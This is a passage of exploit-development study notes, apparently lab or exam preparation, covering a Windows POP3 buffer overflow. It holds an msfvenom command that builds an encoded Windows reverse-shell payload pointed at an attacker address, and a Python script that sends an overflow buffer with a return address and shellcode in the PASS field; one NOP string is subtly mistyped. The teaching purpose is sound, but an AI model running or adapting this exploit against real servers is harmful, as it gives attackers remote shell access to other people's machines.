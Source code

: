 * Place breakpoint at the memory address

* points to the beginning of Cs in buffer

### Shellcode

* shellcode payload generator from metasploit

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`

* IP is of attacker
* -f c is for C
* -a for x86/x64
* --platform windows
* -e encoder

Copy and put it into exploit

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

shellcode = ("GENERATED SHELL CODE")

buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "x90" * 16 + shellcode + "C" * (3500-2606-4-351-16) # 351 bytes are the size of the payload
# Need to add some NOPs

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

## Linux BO Example
